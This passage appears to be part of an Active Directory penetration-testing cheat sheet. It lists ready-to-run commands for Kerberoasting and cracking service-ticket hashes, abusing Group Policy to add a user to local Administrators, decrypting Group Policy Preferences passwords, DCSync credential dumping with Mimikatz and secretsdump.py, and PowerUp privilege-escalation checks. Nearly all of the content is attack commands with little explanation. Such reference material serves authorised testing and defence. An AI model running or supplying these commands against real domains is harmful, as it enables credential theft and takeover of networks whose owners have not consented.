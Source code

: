 - **Invoke-Kerberoast**:
    
    ```powershell
    Invoke-Kerberoast -OutputFormat Hashcat | Out-File kerberoast.txt
    ```
    
- **Rubeus**:
    
    ```powershell
    Rubeus.exe kerberoast
    ```
    
- **Request and Crack Service Tickets**:
    
    ```bash
    GetUserSPNs.py <domain>/<username>:<password> -dc-ip <target_ip> -request
    hashcat -m 13100 <hash> /path/to/wordlist.txt
    ```
    

#### 5.3 Abusing GPOs (Group Policy Objects) 

- **SharpGPOAbuse**:
    
    ```powershell
    SharpGPOAbuse -AddUserToLocalGroup -UserAccount your_user -GroupName "Administrators" -GPOName "Default Domain Policy"
    ```
    

#### 5.4 Abusing Group Policy Preferences (GPP) 

- **gpp-decrypt (Linux)**:
    
    ```bash
    gpp-decrypt <cpassword>
    ```
    
    Decrypting passwords stored in GPP.

#### 5.5 DCSync Attack (Replicating Directory) 

- **Mimikatz**:
    
    ```powershell
    lsadump::dcsync /user:<domain>\<username>
    ```
    
- **Impacket’s secretsdump.py**:
    
    ```bash
    secretsdump.py -just-dc <domain>/<username>:<password>@<target_ip>
    ```
    

#### 5.6 Exploiting Misconfigured Services 

- **PowerUp (Windows)**:
    
    ```powershell
    Import-Module PowerUp
    Invoke-AllChecks
    ```
    